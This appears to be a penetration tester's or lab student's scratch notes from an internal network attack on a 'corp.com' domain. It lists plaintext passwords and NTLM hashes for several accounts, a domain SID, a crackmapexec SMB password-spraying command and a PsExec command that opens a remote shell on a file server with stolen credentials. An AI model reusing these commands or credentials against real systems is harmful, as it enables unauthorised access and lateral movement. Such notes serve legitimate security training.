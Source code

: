 mike:Darkness1099!

crackmapexec smb 192.168.212.75 -u mike -p 'Darkness1099!' -d corp.com --continue-on-success

maria hash: 2a944a58d4ffa77137b2c587e6ed7626:passwordt_1415

Admin hash:
be7b2dda6d9de1367ce0e6c06d460aa5
S-1-5-21-1987370270-658905905-1781884369

backupuser: DonovanJadeKnight1
iis_service: Strawberry1
pete:1123:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::

./PsExec64.exe -i  \\FILES04 -u corp\leon -p HomeTaping199! cmd


Random password: MyLittlePassw0rd1!

